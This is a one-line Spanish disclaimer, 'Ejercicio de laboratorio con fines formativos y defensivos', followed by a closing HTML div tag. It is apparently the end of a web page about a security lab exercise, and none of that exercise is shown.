*Ejercicio de laboratorio con fines formativos y defensivos.*

</div>
